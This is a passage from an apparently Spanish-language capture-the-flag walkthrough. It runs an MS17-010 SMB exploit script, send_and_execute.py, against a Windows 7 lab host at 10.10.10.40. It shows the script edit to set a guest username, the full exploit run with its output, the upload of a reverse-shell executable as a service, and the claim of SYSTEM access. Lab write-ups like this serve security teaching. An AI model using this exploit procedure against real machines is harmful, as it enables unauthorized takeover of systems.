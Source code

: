 ```bash
vim send_and_execute.py
**AGREGAR guest EN LA LINEA 37
    USERNAME = 'guest'
```

Ahora que tenemos el pipe, la reverse shell generada y el script modificado, procedemos a ejecutar el script de explotación `send_and_execute.py` para cargar y ejecutar el payload.

```bash
python send_and_execute.py 10.10.10.40 reverseShell.exe 445 samr
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa800472f580
SESSION: 0xfffff8a0095f3060
FLINK: 0xfffff8a008170088
InParam: 0xfffff8a00816015c
MID: 0x4203
unexpected alignment, diff: 0xf088
leak failed... try again
CONNECTION: 0xfffffa800472f580
SESSION: 0xfffff8a0095f3060
FLINK: 0xfffff8a00818c088
InParam: 0xfffff8a00817f15c
MID: 0x4303
unexpected alignment, diff: 0xc088
leak failed... try again
CONNECTION: 0xfffffa800472f580
SESSION: 0xfffff8a0095f3060
FLINK: 0xfffff8a00819b088
InParam: 0xfffff8a00819515c
MID: 0x4303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file AKVQL9.exe...
Opening SVCManager on 10.10.10.40.....
Creating service PTse.....
Starting service PTse.....
The NETBIOS connection with the remote host timed out.
Removing service PTse.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `NT Authority/System`
